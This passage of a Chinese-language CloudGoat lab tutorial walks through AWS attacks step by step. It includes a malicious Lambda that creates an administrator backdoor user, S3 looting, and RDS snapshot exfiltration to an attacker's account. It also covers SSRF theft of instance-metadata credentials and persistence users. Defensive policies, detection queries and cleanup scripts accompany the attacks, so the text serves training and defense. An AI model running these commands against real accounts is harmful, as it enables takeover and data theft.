# 查看函数配置（重点关注 Role 字段）
aws lambda get-function-configuration \
  --function-name cg-lambda-function \
  --profile attacker
# 输出中的 Role 字段显示附加的 IAM 角色 ARN
# 例如：arn:aws:iam::123456789012:role/cg-lambda-role

# ★ 查看该角色的权限策略
aws iam list-attached-role-policies \
  --role-name cg-lambda-role \
  --profile attacker
# 输出可能显示该角色附加了 AdministratorAccess 或类似的高权限策略！

# 查看函数源代码（了解功能逻辑和可能的漏洞）
aws lambda get-function \
  --function-name cg-lambda-function \
  --profile attacker
# 下载代码包（通常是一个 zip 文件）

# 检查函数的环境变量（可能包含敏感信息）
aws lambda get-function-configuration \
  --function-name cg-lambda-function \
  --profile attacker \
  --query "Environment.Variables"
```

**阶段二：利用 lambda:CreateFunction + iam:PassRole 提权**

```bash
# ★ 核心攻击：创建恶意 Lambda 函数，使用高权限角色执行

# 步骤 1：编写恶意 Lambda 函数代码
cat > /tmp/evil.py << 'EOF'
import boto3
import json

def handler(event, context):
    iam = boto3.client('iam')
    
    # 创建后门用户
    iam.create_user(UserName='backdoor')
    iam.attach_user_policy(
        UserName='backdoor',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    
    # 创建 Access Key
    key = iam.create_access_key(UserName='backdoor')
    
    return {
        'statusCode': 200,
        'body': json.dumps({
            'AccessKeyId': key['AccessKey']['AccessKeyId'],
            'SecretAccessKey': key['AccessKey']['SecretAccessKey']
        })
    }
EOF

# 步骤 2：打包代码
cd /tmp && zip evil.zip evil.py

# 步骤 3：创建恶意 Lambda 函数，指定高权限角色
aws lambda create-function \
  --function-name cg-evil-function \
  --runtime python3.12 \
  --role arn:aws:iam::<account-id>:role/cg-lambda-role \
  --handler evil.handler \
  --zip-file fileb://evil.zip \
  --profile attacker

# 步骤 4：触发函数执行
aws lambda invoke \
  --function-name cg-evil-function \
  --payload '{}' \
  output.json \
  --profile attacker

# 步骤 5：从输出获取管理员凭证
cat output.json
# {
#     "AccessKeyId": "AKIA...",
#     "SecretAccessKey": "..."
# }

# 步骤 6：使用新凭证验证权限
aws configure --profile backdoor
# 输入新获取的凭证
aws sts get-caller-identity --profile backdoor
# 输出确认身份为 backdoor 用户，具有 AdministratorAccess 权限
```

#### 6.5.4 防御与检测

**预防措施——最小权限角色策略**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "LambdaMinimumPermissions",
            "Effect": "Allow",
            "Action": [
                "logs:CreateLogGroup",
                "logs:CreateLogStream",
                "logs:PutLogEvents"
            ],
            "Resource": "arn:aws:logs:*:*:log-group:/aws/lambda/*"
        },
        {
            "Sid": "DenyDangerousIamActions",
            "Effect": "Deny",
            "Action": [
                "iam:CreateUser",
                "iam:AttachUserPolicy",
                "iam:CreateAccessKey",
                "iam:PassRole",
                "lambda:CreateFunction"
            ],
            "Resource": "*"
        }
    ]
}
```

**检测规则——监控 Lambda 函数创建操作**：

```sql
-- CloudWatch Logs Insights：查找 Lambda 函数创建事件
fields eventTime, userIdentity.arn, requestParameters.functionName, requestParameters.role
| filter eventName = "CreateFunction"
| sort eventTime desc
| limit 50
```

**Lambda 安全最佳实践**：

| 风险 | 防御措施 | 优先级 |
|------|---------|-------|
| 环境变量泄露密钥 | 使用 AWS Secrets Manager + 环境变量引用（`{{resolve:secretsmanager:...}}`） | 高 |
| 角色权限过大 | 遵循最小权限，使用 AWS SAM policy templates | 高 |
| 代码可被下载 | 启用代码签名（Code Signing），限制代码来源 | 中 |
| 函数被篡改 | 使用 Lambda 函数 URL 认证（IAM/Auth） | 中 |
| 冷启动信息泄露 | 清理 `/tmp` 目录中的敏感文件 | 低 |
| 函数被滥用执行恶意代码 | 使用 Lambda 保留并发限制（Reserved Concurrency）防止资源耗尽 | 低 |

---

### 6.6 攻击场景四：S3 数据泄露（cloud_breach_s3）

此场景模拟了因 S3 Bucket 策略配置不当导致的数据公开访问漏洞。S3 泄露是 AWS 环境中最常见的安全事件之一。

#### 6.6.1 场景背景

AWS S3（Simple Storage Service）是企业数据存储的核心服务。根据 Trend Micro 的研究报告，**超过 7% 的所有 S3 Bucket 存在某种形式的公开访问配置错误**。常见的错误包括：Bucket Policy 中使用 `"Principal": "*"` 授予匿名访问权限、未启用 S3 Block Public Access、ACL 配置不当等。

**真实案例参考**：2017 年，Accenture 因 S3 Bucket 配置错误泄露了包括 API 凭证、解密密钥、管理员密码在内的敏感数据。2019 年，Verizon 因合作伙伴（Nice Systems）的 S3 Bucket 公开访问泄露了 600 万客户记录。

#### 6.6.2 场景部署与攻击

```bash
python3 cloudgoat.py create cloud_breach_s3
cat ./cloud_breach_s3/cgoat_output.txt

# 步骤 1：枚举 S3 Bucket
aws s3 ls --profile attacker

# 步骤 2：尝试直接访问 Bucket（可能允许匿名访问）
aws s3 ls s3://cg-secret-s3-bucket/ --recursive --profile attacker

# 步骤 3：检查 Bucket 策略
aws s3api get-bucket-policy \
  --bucket cg-secret-s3-bucket \
  --profile attacker
# 策略中可能包含 "Principal": "*" 或过宽的条件

# 步骤 4：下载所有文件
aws s3 cp s3://cg-secret-s3-bucket/ ./loot/ --recursive --profile attacker

# 步骤 5：分析文件获取进一步凭证
ls -la ./loot/
cat ./loot/*.txt
cat ./loot/*.json
# 文件中可能包含 EC2 User Data、数据库凭证、API 密钥等

# 步骤 6：利用获取的凭证继续攻击
# 如果找到 RDS 凭证，可以连接数据库
# 如果找到 API 密钥，可以访问其他服务
```

#### 6.6.3 S3 安全检查清单

```bash
# ===== 使用 Prowler 批量检查 S3 安全配置 =====
prowler aws --checks s3_bucket_public_access s3_bucket_policy_public_write_access

# ===== 手动检查流程 =====

# 检查 1：Public Access Block 配置
aws s3api get-public-access-block --bucket <bucket-name>
# 确保以下四个字段全部为 true：
# - BlockPublicAcls: true
# - IgnorePublicAcls: true
# - BlockPublicPolicy: true
# - RestrictPublicBuckets: true

# 检查 2：Bucket ACL（是否授权 AllUsers 或 AuthenticatedUsers）
aws s3api get-bucket-acl --bucket <bucket-name>
# 查找 Grantee 中的 "AllUsers" 或 "AuthenticatedUsers"

# 检查 3：Bucket Policy 中的 Principal
aws s3api get-bucket-policy --bucket <bucket-name> --output text | jq '.Policy | fromjson | .Statement[] | select(.Effect=="Allow" and .Principal=="*")'
# 如果返回结果，说明有匿名访问授权

# 检查 4：Bucket 加密配置
aws s3api get-bucket-encryption --bucket <bucket-name>
# 确保启用了 SSE-S3 或 SSE-KMS

# 检查 5：版本控制
aws s3api get-bucket-versioning --bucket <bucket-name>
# 生产环境建议开启 Versioning
```

#### 6.6.4 防御与检测

**预防措施——启用 S3 Block Public Access**：

```bash
# 为单个 Bucket 启用所有 Block Public Access 设置
aws s3api put-public-access-block \
  --bucket <bucket-name> \
  --public-access-block-configuration \
    BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# ★ 为整个 AWS 账户启用（推荐）
aws s3control put-public-access-block \
  --account-id <account-id> \
  --public-access-block-configuration \
    BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
```

**检测规则——监控 S3 Bucket Policy 变更**：

```sql
-- CloudWatch Logs Insights：查找 S3 Bucket Policy 变更
fields eventTime, userIdentity.arn, requestParameters.bucketName, eventName
| filter eventName in ["PutBucketPolicy", "PutBucketAcl", "PutBucketPublicAccessBlock"]
| sort eventTime desc
| limit 50
```

**使用 SCP 全局禁止 S3 公开访问**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyS3PublicAccess",
            "Effect": "Deny",
            "Action": [
                "s3:PutBucketPublicAccessBlock"
            ],
            "Resource": "*",
            "Condition": {
                "StringNotEquals": {
                    "s3:PublicAccessBlockConfiguration/BlockPublicAcls": "true",
                    "s3:PublicAccessBlockConfiguration/BlockPublicPolicy": "true"
                }
            }
        }
    ]
}
```

---

### 6.7 攻击场景五：RDS 快照外泄（rds_snapshot_exfil）

此场景展示了如何利用过度授权的 RDS 权限创建数据库快照并修改其公开属性来窃取数据。这是云环境中数据外泄的隐蔽方式之一。

#### 6.7.1 场景背景

在传统数据中心中，窃取数据库数据需要直接访问数据库服务器或网络流量。而在 AWS 云环境中，攻击者可以利用 RDS 快照功能——无需连接数据库，只需几条 API 调用就能将整个数据库的完整副本导出为可公开访问的快照。这种攻击方式的隐蔽性在于：**它不产生数据库连接日志**，传统的数据库审计工具无法检测。攻击者只需要具有 `rds:CreateDBSnapshot` 和 `rds:ModifyDBSnapshotAttribute` 权限即可实施。

#### 6.7.2 攻击步骤详解

```bash
python3 cloudgoat.py create rds_snapshot_exfil
cat ./rds_snapshot_exfil/cgoat_output.txt

# 步骤 1：枚举 RDS 实例
aws rds describe-db-instances --profile attacker \
  --query "DBInstances[].[DBInstanceIdentifier,Engine,MasterUsername,Endpoint.Address]" \
  --output table

# 步骤 2：枚举已有快照
aws rds describe-db-snapshots --profile attacker \
  --query "DBSnapshots[].[DBSnapshotIdentifier,DBInstanceIdentifier,Status]" \
  --output table

# 步骤 3：查看手动快照属性（检查是否已公开）
aws rds describe-db-snapshot-attributes \
  --db-snapshot-identifier cg-rds-snapshot \
  --profile attacker

# 步骤 4：★ 核心攻击——修改快照属性为公开
aws rds modify-db-snapshot-attribute \
  --db-snapshot-identifier cg-rds-snapshot \
  --attribute-name restore \
  --values-to-add '["all"]' \
  --profile attacker

# 步骤 5：验证快照已公开
aws rds describe-db-snapshot-attributes \
  --db-snapshot-identifier cg-rds-snapshot \
  --profile attacker
# 输出中的 RestorableDBInstanceUserIds 应包含 "all"

# 步骤 6：从攻击者自己的 AWS 账户恢复快照
aws rds restore-db-instance-from-db-snapshot \
  --db-instance-identifier stolen-db \
  --db-snapshot-identifier arn:aws:rds:<region>:<victim-account>:snapshot:cg-rds-snapshot \
  --profile attacker-own-account

# 步骤 7：等待实例启动后连接并提取数据
mysql -h stolen-db.xxxx.us-east-1.rds.amazonaws.com -u admin -p<password> -D <database>
# 或使用 PostgreSQL
psql -h stolen-db.xxxx.us-east-1.rds.amazonaws.com -U admin -d <database>

# 步骤 8：清理攻击痕迹（可选，但增加检测难度）
# 删除创建的恢复实例
aws rds delete-db-instance \
  --db-instance-identifier stolen-db \
  --skip-final-snapshot \
  --profile attacker-own-account
```

#### 6.7.3 防御与检测

**预防措施——限制 RDS 快照操作权限**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenySnapshotModification",
            "Effect": "Deny",
            "Action": [
                "rds:ModifyDBSnapshotAttribute",
                "rds:ModifyDBClusterSnapshotAttribute"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowSnapshotRestoreOnly",
            "Effect": "Deny",
            "Action": "rds:RestoreDBInstanceFromDBSnapshot",
            "Resource": "*",
            "Condition": {
                "StringNotEquals": {
                    "aws:ResourceTag/cloudgoat": "true"
                }
            }
        }
    ]
}
```

**检测规则——监控快照操作**：

```sql
-- CloudWatch Logs Insights：查找 RDS 快照相关操作
fields eventTime, userIdentity.arn, eventName, requestParameters.dbSnapshotIdentifier
| filter eventName in ["CreateDBSnapshot", "ModifyDBSnapshotAttribute", "RestoreDBInstanceFromDBSnapshot"]
| sort eventTime desc
| limit 50
```

**RDS 安全最佳实践**：
- 对所有 RDS 实例启用加密（at-rest encryption）
- 使用 KMS 密钥而非 AWS 管理密钥（CMK vs AWS-managed key）
- 启用 Performance Insights 和 Enhanced Monitoring 监控异常访问
- 定期审计 `rds:ModifyDBSnapshotAttribute` 操作

---

### 6.8 综合实战：多场景联动攻击

在真实的云安全事故中，攻击者通常不会只利用单一漏洞。以下是一个综合性的攻击链，模拟从初始访问到数据窃取的完整流程。该攻击链整合了前述多个场景的攻击技术，展示了攻击者如何在 AWS 环境中逐步扩大权限。

#### 6.8.1 攻击链设计



#### 6.8.2 实战演练步骤

```bash
# ============================================
# 第一阶段：初始突破（利用 SSRF）
# ============================================
# 通过 SSRF 获取 EC2 IMDS 凭证（参考 6.4 节）
curl -s "http://<web-app-url>/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role"

# 配置获取的临时凭证
export AWS_ACCESS_KEY_ID=<ssrf-obtained-key>
export AWS_SECRET_ACCESS_KEY=<ssrf-obtained-secret>
export AWS_SESSION_TOKEN=<ssrf-obtained-token>

# ============================================
# 第二阶段：权限枚举与提权
# ============================================
# 枚举当前凭证的权限
enumerate-iam --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN

# 列出可用服务
aws s3 ls
aws lambda list-functions
aws iam list-roles

# 发现 Lambda 函数及其角色权限
aws lambda get-function-configuration --function-name cg-lambda-function --query "Role"

# 利用 lambda:CreateFunction + iam:PassRole 创建恶意函数（参考 6.5 节）

# ============================================
# 第三阶段：数据收集
# ============================================
# 下载 S3 中的配置文件
aws s3 cp s3://<bucket>/config/ ./config/ --recursive
cat ./config/database.yml
cat ./config/credentials.json

# 从 Secrets Manager 获取凭证
aws secretsmanager list-secrets --query "SecretList[].[Name,ARN]"
aws secretsmanager get-secret-value --secret-id <secret-name>

# ============================================
# 第四阶段：数据库渗透
# ============================================
# 使用配置文件中的凭证连接 RDS
mysql -h <rds-endpoint> -u <username> -p<password> -D <database>

# 导出敏感数据
mysqldump -h <rds-endpoint> -u <username> -p<password> <database> > dump.sql

# ============================================
# 第五阶段：持久化
# ============================================
# 创建数据库快照并设为公开（外泄通道）
aws rds create-db-snapshot \
  --db-instance-identifier <db-id> \
  --db-snapshot-identifier stolen-$(date +%s)

aws rds modify-db-snapshot-attribute \
  --db-snapshot-identifier <snapshot-id> \
  --attribute-name restore \
  --values-to-add '["all"]'

# 创建 IAM 后门用户（本地持久化）
aws iam create-user --user-name persist-backdoor
aws iam create-access-key --user-name persist-backdoor
aws iam attach-user-policy \
  --user-name persist-backdoor \
  --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess
```

#### 6.8.3 蓝队检测与响应

对应攻击链的每个阶段，蓝队可以部署以下检测规则：

| 攻击阶段 | 检测信号 | 检测工具 | 响应动作 |
|---------|---------|---------|---------|
| SSRF/IMDS 访问 | 异常的 169.254.169.254 请求模式 | VPC Flow Logs + GuardDuty | 隔离 EC2 实例 |
| Lambda 函数创建 | 非预期的 CreateFunction API 调用 | CloudTrail + EventBridge | 停止函数执行 |
| IAM 策略变更 | SetDefaultPolicyVersion、AttachUserPolicy | CloudTrail + Config Rules | 回滚策略变更 |
| S3 数据下载 | 大量 GetObject 操作 | CloudTrail + Macie | 阻止访问 |
| RDS 快照外泄 | CreateDBSnapshot、ModifyDBSnapshotAttribute | CloudTrail + GuardDuty | 删除公开快照 |
| 后门用户创建 | CreateUser、CreateAccessKey | CloudTrail + IAM Access Analyzer | 禁用用户 |

---

### 6.9 场景管理与资源清理

#### 6.9.1 日常管理命令

```bash
# 列出所有已部署的场景
python3 cloudgoat.py list

# 销毁特定场景（释放所有 AWS 资源）
python3 cloudgoat.py destroy iam_privesc_by_rollback

# 销毁所有场景
python3 cloudgoat.py destroy --all

# 查看场景的 Terraform 状态（高级调试）
cd ./iam_privesc_by_rollback/terraform
terraform show
terraform state list

# 手动销毁（如果 cloudgoat destroy 失败）
cd ./<scenario>/terraform
terraform destroy -auto-approve
```

#### 6.9.2 避免意外计费

AWS 资源按使用量计费。以下是 CloudGoat 常见资源的费用估算：

| 资源类型 | 小时费用（约） | 每日费用（约） | 清理方式 |
|---------|--------------|--------------|---------|
| EC2 t3.micro | $0.0104/h | $0.25/天 | `cloudgoat destroy` |
| RDS db.t3.micro | $0.017/h | $0.41/天 | 销毁场景自动删除 |
| NAT Gateway | $0.045/h + 数据费 | $1.08+/天 | 销毁场景自动删除 |
| S3 存储 | $0.023/GB/月 | < $0.01/天 | 销毁场景自动清空 |
| Lambda | $0.20/百万次调用 | < $0.01/天 | 无 |
| CloudWatch Logs | $0.50/GB | < $0.01/天 | 自动清理 |

**安全网：设置 AWS 计费告警**

```bash
# 创建计费告警（需要 CloudWatch Billing Alarm 权限）
# 注意：必须在 us-east-1 区域创建，Billing 指标仅在此区域可用
aws cloudwatch put-metric-alarm \
  --alarm-name "CloudGoat-Budget-Alert" \
  --alarm-description "Alert when CloudGoat costs exceed $10" \
  --metric-name EstimatedCharges \
  --namespace AWS/Billing \
  --statistic Maximum \
  --period 21600 \
  --threshold 10 \
  --comparison-operator GreaterThanThreshold \
  --dimensions Name=Currency,Value=USD \
  --evaluation-periods 1 \
  --alarm-actions arn:aws:sns:us-east-1:<account-id>:billing-alerts \
  --region us-east-1
```

> **重要提醒**：计费告警的 `--metric-name EstimatedCharges` 仅在 `us-east-1` 区域可用。如果你在其他区域创建，告警将不会触发。

#### 6.9.3 资源残留检查

即使执行了 `cloudgoat destroy`，有时 Terraform 状态不一致可能导致资源残留。以下是彻底检查脚本：

```bash
#!/bin/bash
# ===== CloudGoat 资源残留检查脚本 =====

ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
echo "检查 AWS 账户: $ACCOUNT_ID"

# 检查 EC2 实例
echo "===== EC2 实例 ====="
aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=*cloudgoat*,*cg*" \
  --query "Reservations[].Instances[].[InstanceId,State.Name,LaunchTime]" \
  --output table

# 检查 S3 Bucket
echo "===== S3 Bucket ====="
aws s3 ls | grep -i cloudgoat

# 检查 IAM 用户
echo "===== IAM 用户 ====="
aws iam list-users --query "Users[?contains(UserName, 'cg')].[UserName,CreateDate]" --output table

# 检查 IAM 角色
echo "===== IAM 角色 ====="
aws iam list-roles --query "Roles[?contains(RoleName, 'cg')].[RoleName,CreateDate]" --output table

# 检查 Lambda 函数
echo "===== Lambda 函数 ====="
aws lambda list-functions --query "Functions[?contains(FunctionName, 'cg')].FunctionName" --output table

# 检查 RDS 实例
echo "===== RDS 实例 ====="
aws rds describe-db-instances --query "DBInstances[?contains(DBInstanceIdentifier, 'cg')].[DBInstanceIdentifier,DBInstanceStatus]" --output table

# 检查 RDS 快照（手动）
echo "===== RDS 手动快照 ====="
aws rds describe-db-snapshots --snapshot-type manual --query "DBSnapshots[?contains(DBSnapshotIdentifier, 'cg')].[DBSnapshotIdentifier,Status]" --output table

# 检查 DynamoDB 表
echo "===== DynamoDB 表 ====="
aws dynamodb list-tables --query "TableNames[?contains(@, 'cg')]" --output table

# 检查 ECS 集群
echo "===== ECS 集群 ====="
aws ecs list-clusters --query "clusterArns[?contains(@, 'cg')]" --output table

echo "===== 检查完成 ====="
```

---

### 6.10 学习路径与进阶

#### 6.10.1 推荐学习顺序

CloudGoat 的场景设计遵循渐进式难度。以下是推荐的学习路径：



**入门阶段（适合初学者）**：
- `iam_privesc_by_rollback`：理解 IAM 策略版本管理和权限提升的基本概念
- `cloud_breach_s3`：理解 S3 访问控制和公开数据泄露的风险

**中级阶段（有 AWS 基础经验）**：
- `ec2_ssrf`：理解 IMDS 机制和 SSRF 攻击向量
- `lambda_privesc`：理解 Serverless 安全和角色链攻击
- `rds_snapshot_exfil`：理解数据库快照安全和数据外泄技术

**高级阶段（有渗透测试经验）**：
- `detection_evasion`：学习如何绕过 CloudTrail 和 GuardDuty 的检测
- `ecs_takeover`：学习容器化环境的攻击技术
- `glue_privesc`：学习大数据服务的攻击面

#### 6.10.2 场景完成自测清单

每个场景完成后，确保你能回答以下问题。这些问题是红蓝对抗面试中的高频考点：

**攻击维度**：
- [ ] **攻击面识别**：这个场景的初始攻击面是什么？是 Web 应用、IAM 策略还是网络配置？
- [ ] **漏洞根因**：导致漏洞的配置错误具体是什么？是权限过宽、版本管理不当还是访问控制缺失？
- [ ] **攻击路径**：从初始访问到最终目标的完整步骤是什么？每一步的前置条件是什么？
- [ ] **权限边界**：每个阶段获取的凭证分别有哪些权限？如何确认？
- [ ] **影响范围**：如果在真实环境中被利用，影响有多大？涉及多少用户/数据？

**防御维度**：
- [ ] **检测方法**：如何通过 CloudTrail/CloudWatch/GuardDuty 检测此类攻击？
- [ ] **修复方案**：如何修复该配置错误？修复的 AWS CLI/API 命令是什么？
- [ ] **防御深度**：除了修复漏洞，还有哪些防御层（WAF、SCP、VPC 端点等）可以防止类似攻击？
- [ ] **合规映射**：此漏洞违反了哪些合规标准（CIS AWS Benchmark、SOC 2、PCI DSS）？

#### 6.10.3 进阶：自定义 CloudGoat 场景

CloudGoat 的每个场景都是一个独立的 Terraform 模块。你可以基于现有场景创建自定义场景，用于模拟特定环境的攻击：

```bash
# 查看现有场景的目录结构
ls -la ./iam_privesc_by_rollback/
# main.tf          - 主要资源定义
# variables.tf     - 输入变量
# cgoat_output.tf  - 输出定义（凭证等）
# start.sh         - 攻击启动脚本（可选）
# end.sh           - 完成检查脚本（可选）

# 创建自定义场景目录
mkdir -p ./my_custom_scenario
cd ./my_custom_scenario

# 编写 main.tf（以故意配置错误的 S3 Bucket 为例）
cat > main.tf << 'EOF'
variable "cgid" {
  description = "CloudGoat 隔离 ID"
  type        = string
}

variable "region" {
  description = "AWS 区域"
  type        = string
  default     = "us-east-1"
}

provider "aws" {
  region = var.region
}

# 创建公开的 S3 Bucket（故意配置错误）
resource "aws_s3_bucket" "vulnerable_bucket" {
  bucket = "cg-${var.cgid}-public-data"
}

resource "aws_s3_bucket_public_access_block" "vulnerable_bucket" {
  bucket                  = aws_s3_bucket.vulnerable_bucket.id
  block_public_acls       = false
  block_public_policy     = false
  ignore_public_acls      = false
  restrict_public_buckets = false
}

resource "aws_s3_bucket_policy" "vulnerable_bucket" {
  bucket = aws_s3_bucket.vulnerable_bucket.id
  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Sid       = "PublicRead"
        Effect    = "Allow"
        Principal = "*"
        Action    = "s3:GetObject"
        Resource  = "${aws_s3_bucket.vulnerable_bucket.arn}/*"
      }
    ]
  })
}

# 创建用于存储敏感数据的文件
resource "aws_s3_object" "secret_data" {
  bucket = aws_s3_bucket.vulnerable_bucket.id
  key    = "config/credentials.json"
  content = jsonencode({
    database = {
      host     = "cg-rds-${var.cgid}.xxxx.us-east-1.rds.amazonaws.com"
      username = "admin"
      password = "SuperSecret123!"
    }
    api_key = "YOUR_AWS_KEY_ID"
  })
}

output "bucket_name" {
  value = aws_s3_bucket.vulnerable_bucket.id
}

output "bucket_url" {
  value = "https://${aws_s3_bucket.vulnerable_bucket.bucket}.s3.amazonaws.com/"
}
EOF

# 创建 cgoat_output.tf
cat > cgoat_output.tf << 'EOF'
output "cgoat_output" {
  value = <<-EOT
    Bucket Name: ${aws_s3_bucket.vulnerable_bucket.id}
    Bucket URL: https://${aws_s3_bucket.vulnerable_bucket.bucket}.s3.amazonaws.com/
    
    攻击目标：
    1. 访问 s3://${aws_s3_bucket.vulnerable_bucket.id}/config/credentials.json
    2. 获取数据库凭证
    3. 连接数据库并提取数据
  EOT
}
EOF

cd ..
```

---

### 6.11 常见问题与陷阱

#### 6.11.1 部署失败

| 错误信息 | 根因分析 | 解决方案 |
|---------|---------|---------|
| `Error: UnauthorizedOperation` | AWS 凭证权限不足 | 确认 IAM 用户有 AdministratorAccess，或检查自定义策略是否包含所需 Action |
| `Error: LimitExceeded` | 达到 AWS 服务配额（如 EC2 实例数、IAM 用户数） | 在 AWS Service Quotas 中请求提高配额，或先清理残留资源 |
| `Error: InvalidAMIID` | AMI 在当前区域不可用 | 切换到 us-east-1，或检查 Terraform 中的 AMI ID 是否需要更新 |
| `Error: DependencyViolation` | 资源间存在依赖，无法删除 | 等待 5 分钟后重试（AWS 异步清理），或手动删除依赖资源 |
| `terraform init` 超时 | 网络问题或 Terraform Registry 不可达 | 设置 `HTTPS_PROXY` 环境变量，或使用国内镜像源（见 6.2.1） |
| `Error: IAMLimitExceededException` | IAM 策略/角色数量达到上限（默认 1500 策略） | 先 `cloudgoat destroy --all` 清理，或手动删除不再需要的策略 |
| `Error: Throttling` | API 请求被限流 | 等待 30 秒后重试，CloudGoat 有内置重试机制 |

#### 6.11.2 攻击过程中断

```bash
# 场景 1：凭证过期（临时凭证默认 12 小时有效）
# 解决：检查凭证过期时间
aws sts get-caller-identity --profile attacker
# 如果过期，需要重新部署场景：python3 cloudgoat.py create <scenario>

# 场景 2：CloudTrail 日志导致检测（在蓝队场景中）
# 检查被记录了哪些操作
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=SetDefaultPolicyVersion \
  --max-results 10 \
  --profile attacker

# 场景 3：意外销毁场景
# 解决：重新部署
python3 cloudgoat.py create <scenario>

# 场景 4：Terraform 状态损坏
cd ./<scenario>/terraform
terraform state list
terraform refresh
# 如果仍然失败，删除 .terraform 目录和 state 文件后重新部署
```

#### 6.11.3 安全注意事项

以下是使用 CloudGoat 时必须遵守的安全规范：

- **绝对不要** 在生产 AWS 账户中运行 CloudGoat
- **必须使用** 独立的测试账户或 AWS Organizations 子账户
- **定期检查** 计费面板，确保没有遗留的高费用资源
- **不要使用** 包含真实业务数据的 AWS 账户
- **部署完成后** 立即记录初始凭证到安全位置（如密码管理器），避免丢失后需要重新部署
- **销毁前** 确认所有学习目标已完成，Flag 已找到
- **多人协作时** 使用不同的 `cgid` 隔离各自的场景实例
- **练习结束后** 运行 6.9.3 的资源残留检查脚本，确保无残留

---

### 6.12 红队报告编写指南

完成 CloudGoat 场景后，编写一份专业的渗透测试报告是必不可少的技能。以下是报告模板和写作要点：

#### 6.12.1 报告结构模板

```markdown
# 云安全渗透测试报告

## 1. 执行摘要
- 测试范围：[AWS 账户/区域]
- 测试时间：[起止时间]
- 发现的漏洞：[数量和严重程度]
- 整体风险评级：[高/中/低]

## 2. 漏洞发现

### 2.1 [漏洞名称]
- **严重程度**：高/中/低
- **CVSS 评分**：x.x
- **影响服务**：[IAM/EC2/S3/RDS/Lambda]
- **漏洞描述**：[简述漏洞根因]
- **攻击路径**：
  1. [步骤 1]
  2. [步骤 2]
  3. ...
- **影响分析**：[数据泄露范围、权限影响]
- **证据截图/命令输出**：[实际执行的命令和结果]
- **修复建议**：[具体的 AWS CLI/API 命令]
- **检测方法**：[CloudTrail/CloudWatch 检测规则]

## 3. 修复优先级
| 序号 | 漏洞 | 严重程度 | 修复难度 | 建议完成时间 |
|------|------|---------|---------|------------|
| 1    | ...  | 高      | 低      | 24 小时内   |

## 4. 附录
- 测试工具列表
- 参考的合规标准
- 相关 AWS 文档链接
```

---

### 6.13 案例总结与知识图谱

#### 6.13.1 核心知识要点

通过 CloudGoat 实战，我们系统性地掌握了以下云安全知识：

| 攻击阶段 | 核心技术 | AWS 服务 | 防御工具 | MITRE ATT&CK |
|---------|---------|---------|---------|-------------|
| 初始访问 | SSRF、公开 S3、Web RCE | EC2、S3、Lambda | WAF、S3 Block Public Access | T1190, T1133 |
| 权限提升 | 策略回滚、角色滥用、Lambda 提权 | IAM、Lambda | IAM Access Analyzer、SCPs | T1078, T1098 |
| 横向移动 | 凭证复用、服务枚举、IMDS 利用 | STS、IMDS、所有服务 | 最小权限、条件键、IMDSv2 | T1021, T1550 |
| 数据窃取 | 快照外泄、S3 下载、Secrets Manager | S3、RDS、Secrets Manager | 加密、VPC Endpoint、Macie | T1530, T1537 |
| 持久化 | 后门用户、公开快照、Lambda 后门 | IAM、RDS、Lambda | CloudTrail 监控、GuardDuty | T1098, T1136 |
| 防御规避 | 日志绕过、凭证混淆 | CloudTrail、CloudWatch | GuardDuty、Security Hub | T1562, T1070 |

#### 6.13.2 云安全防御体系架构



#### 6.13.3 延伸学习资源

**官方文档**：
- [AWS Security Best Practices](https://docs.aws.amazon.com/security/) — AWS 官方安全指南
- [AWS Well-Architected Framework — Security Pillar](https://docs.aws.amazon.com/wellarchitected/latest/security-pillar/welcome.html) — 安全支柱白皮书
- [MITRE ATT&CK Cloud Matrix](https://attack.mitre.org/matrices/cloud/) — 云攻击技术标准化分类

**攻击工具与框架**：
- [Pacu](https://github.com/RhinoSecurityLabs/pacu) — CloudGoat 的姊妹项目，AWS 攻击工具箱
- [enumerate-iam](https://github.com/andresriancho/enumerate-iam) — IAM 权限枚举
- [Stratus Red Team](https://github.com/DataDog/stratus-red-team) — 覆盖 AWS、GCP、Azure 的原子化攻击模拟

**防御工具**：
- [Prowler](https://github.com/prowler-cloud/prowler) — AWS 安全评估，基于 CIS Benchmark
- [ScoutSuite](https://github.com/nccgroup/ScoutSuite) — 多云安全审计
- [CloudMapper](https://github.com/duo-labs/cloudmapper) — AWS 环境可视化

**社区与资讯**：
- [Rhino Security Labs Blog](https://rhinosecuritylabs.com/blog/) — AWS 攻击技术研究
- [Cloud Security Podcast](https://cloudsecuritypodcast.tv/) — 每周云安全新闻
- [AWS Security Blog](https://aws.amazon.com/blogs/security/) — AWS 官方安全博客

> **本案例核心价值**：CloudGoat 不仅是一个漏洞练习平台，更是理解"云安全思维"的训练场。通过亲手构造和利用配置错误，安全工程师能够从攻击者视角理解云环境的风险面，从而在实际工作中更有效地设计防御策略。**最好的防御，来自于对攻击的深刻理解。**
